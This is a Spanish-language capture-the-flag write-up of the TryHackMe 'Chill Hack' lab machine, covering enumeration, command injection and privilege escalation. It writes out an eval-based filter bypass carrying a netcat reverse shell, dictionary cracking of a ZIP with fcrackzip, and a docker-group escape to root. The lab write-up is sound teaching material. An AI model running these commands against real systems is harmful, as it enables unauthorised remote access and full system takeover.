










# Chill Hack

## Índice

- [Setup](#setup)
- [Enumeration](#enumeration)
- [Gaining Access](#gaining-access)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---

## Setup

El primer paso es establecer conexión con la VPN de TryHackMe. Usaré openvpn para hacerlo — este es el comando:

```bash
sudo openvpn <vpn descargada de thm>
```

## Enumeration

Lo primero como siempre, hacer el escaneo para ver puertos abiertos en la máquina víctima



Vemos más info sobre estos puertos con -sCV 



Lo primero que he hecho ha sido meterme a ftp como anonymous para ver si había algo de contenido y he encontrado esto:

```
File: note.txt
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```


Ahora ya podemos intuir que hay alguna ruta en la que podemos introducir comandos, pero se han filtrado algunos para que no podamos usarlos.

El siguiente paso que he hecho ha sido aplicar `gobuster` para enumerar posibles directorios en la url http. Esto ha sido lo que he econtrado: 



Si vamos a /secret, es la ruta donde podemos introducir comandos.

A continuación, vamos a ver como hemos conseguido obtener una shell remota 


## Gaining Access

En la página /secret hay posibilidad de ejecutar comandos. 

He descubierto que me lee el comando echo. 

echo es un comando estándar del shell (bash, sh, zsh) cuya función es imprimir texto en la salida estándar.

Tras intentar varios comandos, no me funcionaba ninguno y he probado con el comando eval a ejecutar una reverse-shell y me ha dejado. 

eval es un builtin del shell (bash, sh, zsh) que toma una cadena de texto y la vuelve a interpretar como si la hubieramos escrito nosotros desde la línea de comandos. En otras palabras, ejecuta una segunda fase de expansión y evaluación.

eval ejecuta cualquier cosa que haya en la cadena

```bash
eval "$(echo 'aqui introducimos la reverse-shell-php')"
```

Yo he elegido hacer:

```bash
eval "$(echo 'rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | sh -i 2>&1 | nc <IP> <PUERTO> >/tmp/f')"
```


Resultado: vulnerabilidad crítica por inyección de comandos.

## Privilege Escalation

User Flag: 


Una vez obtenida la shell y configurandola, he ido escalando privilegios.

Lo primero que he hecho ha sido revisar permisos:

```bash
sudo -l
```

(list) muestra qué comandos puede ejecutar su usuario con sudo, en ese sistema, y bajo qué condiciones.

```bash
www-data@ip-10-81-183-31:/var/www/html/secret$ sudo -l
Matching Defaults entries for www-data on ip-10-81-183-31:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin

User www-data may run the following commands on ip-10-81-183-31:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

Vemos que podemos ejecutar el archivo .sh con el usuario apaar. Gracias a esto vamos a conseguir convertirnos en apaar.



En la imagen se ve que al ejecutar el .sh como apaar, podemos ejecutar comandos. Nos activamos una bash y nos convertimos en apaar.

Siendo apaar, ahora si podemos ver la primera flag  


ROOT FLAG: 

En esta parte he aprendido algo nuevo que hasta ahora no me había aparecido. Os lo comentaré al final.

Lo primero que he intentado ha sido ver los permisos sudo y SUID, pero no he visto nada raro que pueda aprovechar para elevar privilegios a root.

Buscando rutas, archivos y demás, he llegado a encontrar en /var/www lo siguiente:

Tenemos un dir /files. 

Leyendo el archivo index.php, encontramos credenciales para acceder a mysql


Si nos conectamos a mysql, conseguimos credenciales para un par de usuarios, pero no sirven para conectarnos a ssh, por lo que hay que seguir buscando.

Si leemos el archivo hacker.php, nos da una pista de por donde podemos seguir avanzando.

<h1 style="background-color:red;">You have reached this far. </h2>
<h1 style="background-color:black;">Look in the dark! You will find your answer</h1>

Al leer esto, entiendo que tengo que buscar más a dentro aún, es decir, introducirme en algun dir y ver posibles archivos con credenciales o algo por el estilo.

En /files tenemos otro dir /images . Nos metemos y vemos dos imagenes. Me las he llevado a mi máquina atacante para poder ver si contienen información sensible o algo que nos interese.

```bash
steghide extract -sf hacker-with-laptop_23-2147985341.jpg
```

se utiliza para intentar extraer datos ocultos mediante esteganografía desde un archivo portador (en este caso, una imagen JPG).

Explicación por partes:

steghide
Herramienta de línea de comandos para ocultar y extraer información en archivos (imágenes, audio, etc.) usando esteganografía.

extract
Indica que quieres extraer datos ocultos.

-sf (stego file)
Especifica el archivo que supuestamente contiene la información incrustada.

hacker-with-laptop_23-2147985341.jpg
La imagen que actúa como contenedor.

Qué ocurre al ejecutarlo:

steghide analiza la imagen.

Si detecta datos ocultos, te pedirá:

Anotar salvoconducto:

Es la frase de paso con la que se cifraron los datos.

Si la contraseña es correcta, extrae el archivo oculto al directorio actual (por ejemplo, backup.zip). EN ESTE CASO, NO HABÍA CONTRASEÑA, ES DECIR, LE DAMOS A ENTER SIN INTRODUCIR NADA.

Si no hay datos o la clave es incorrecta, lo indicará.

Para poder extraer el contenido del .zip he encontrado el siguiente comando:

```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt backup.zip
```

fcrackzip
Herramienta para probar contraseñas en archivos ZIP cifrados.

--use-unzip
Usa unzip como backend para validar si una contraseña es correcta.

--dictionary
Indica que se hará un ataque por diccionario: probar palabras de una lista.

--init-password /usr/share/wordlists/rockyou.txt
Especifica el archivo de palabras a probar (en este caso, el famoso diccionario rockyou).

backup.zip
El ZIP objetivo.

Una vez encontrada la password, podemos descomprimir el .zip y obtendremos un archivo  que nos muestra lo siguiente:



Encontramos credenciales para el usuario anurodh, pero estan en base64.

Tendremos que decodificarlo haciendo:

```bash
echo -n 'cadena' | base64 -d
```

Ahora que tenemos las credenciales de anurodh, podemos loguearnos a su ssh y ver si podemos escalar hasta root con este usuario.


`AQUÍ VIENE LO NUEVO PARA MI`

En Linux, el demonio de Docker (dockerd) se ejecuta como root. Los usuarios que pertenecen al grupo docker tienen permiso para comunicarse con ese demonio a través del socket /var/run/docker.sock. Eso es el punto crítico.

Qué implica pertenecer al grupo docker

Cuando estás en ese grupo:

Puedes ejecutar docker sin sudo.

Cada comando que envías al cliente Docker se ejecuta, en realidad, por un proceso que ya tiene privilegios de root.

Docker está diseñado para poder:

Crear contenedores.

Montar directorios del host dentro de contenedores.

Ejecutar procesos como root dentro del contenedor.

Acceder a dispositivos y recursos del sistema si se le pide.

Por qué equivale a ser root

Aunque tú seas un usuario “normal”, al controlar Docker puedes pedirle al demonio (que es root) que:

Ejecute procesos arbitrarios.

Acceda al sistema de archivos del host.

Cree contenedores con capacidades elevadas.

Desde el punto de vista de seguridad, eso significa que no hay una separación real entre un usuario del grupo docker y root: el usuario puede inducir al demonio a hacer cualquier acción que root podría hacer.

Por eso, en auditorías y guías de hardening se afirma:

“Pertenecer al grupo docker es equivalente a tener acceso root.”

`¿POR QUÈ EXPLICO ESTO?`

Porque no encontraba ninguna vía (que yo conociera) para escalar privilegios, y buscando en internet encontré esta información. Por tanto, si vemos a los grupos que pertenece el usuario encontramos:

```bash
anurodh@ip-10-81-183-31:~$ id
uid=1002(anurodh) gid=1002(anurodh) groups=1002(anurodh),999(docker)
```

El usuario anurodh pertenece al grupo docker, por lo que puede ejecutar procesos como root dentro del contenedor. Sabiendo esto, nos vamos a gtfobins y buscamos docker:



Introducimos el comando sin necesidad de aplicar sudo, y asi de sencillo nos convertimos en root:

```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```



Ya podemos leer la segunda flag
## Conclusion

